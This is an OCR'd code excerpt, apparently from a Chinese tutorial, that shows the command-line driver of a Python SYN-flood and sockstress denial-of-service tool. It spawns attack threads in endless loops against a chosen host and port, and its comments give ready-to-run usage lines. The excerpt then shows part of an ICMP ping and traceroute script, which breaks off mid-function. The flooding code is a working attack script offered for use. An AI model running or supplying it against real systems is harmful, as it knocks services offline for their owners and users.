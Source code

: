 ```javascript
    isport = random.randint(1,65535)
    ip = IP(src = issrc,dst = target)
    syn = TCP(sport = isport, dport = dstport, flags = 'S')
    send(ip / syn, verbose = 0)
    print("[+] sendp --> {} {}".format(target,isport))
    semaphore.release()       # 释放锁

if __name__ == "__main__":
    parser = OptionParser()
    parser.add_option("-H","--host",dest="host",type="string",help="输入被攻击主机IP地址")
    parser.add_option("-p","--port",dest="port",type="int",help="输入被攻击主机端口")
    parser.add_option("--type",dest="types",type="string",help="指定攻击的载荷 (synflood/sockstress)")
    parser.add_option("-t","--thread",dest="thread",type="int",help="指定攻击并发线程数")
    (options,args) = parser.parse_args()
    # 使用方式: main.py --type=synflood -H 192.168.1.1 -p 80 -t 10
    if options.types == "synflood" and options.host and options.port and options.thread:
        semaphore = threading.Semaphore(options.thread)
        while True:
            t = threading.Thread(target=synflood,args=(options.host,options.port))
            t.start()
    elif options.types == "sockstress" and options.host and options.port and options.thread:
        semaphore = threading.Semaphore(options.thread)
        while True:
            t = threading.Thread(target=sockstress,args=(options.host,options.port))
            t.start()
    else:
        parser.print_help()

# 使用syn flood 攻击方式:python3 c.py --type=synflood -H 192.168.1.10 -p 3389 -t 100
# 使用sock并发攻击: python3 c.py --type=sockstress -H 192.168.1.10 -p 80 -t 100


```



3、跟踪脚本



```javascript
from kamene.all import *
from random import randint
import time,ipaddress,threading
from optparse import OptionParser

def ICMP_Ping(addr):
    RandomID=randint(1,65534)
    packet = IP(dst=addr, ttl=64, id=RandomID) / ICMP(id=RandomID, seq=RandomID) / "lyshark"
    respon = sr1(packet,timeout=3,verbose=0)
    if respon:
        print("[+] --> {}".format(str(respon[IP].src)))

def TraceRouteTTL(addr):
    for item in range(1,128):
        RandomID=randint(1,65534)
        packet = IP(dst=addr, ttl=item, id=RandomID) / ICMP(id=RandomID, seq=RandomID)
        respon = sr1(packet,timeout=3,verbose=0)
        if respon != None:
            ip_src = str(respon[IP].src)
            if ip_src != addr:
                print("[+] --> {}".format(str(respon[IP].src)))
            else:
                print("[+] --> {}".format(str(respon[IP].src)))
                return 1
        else:
```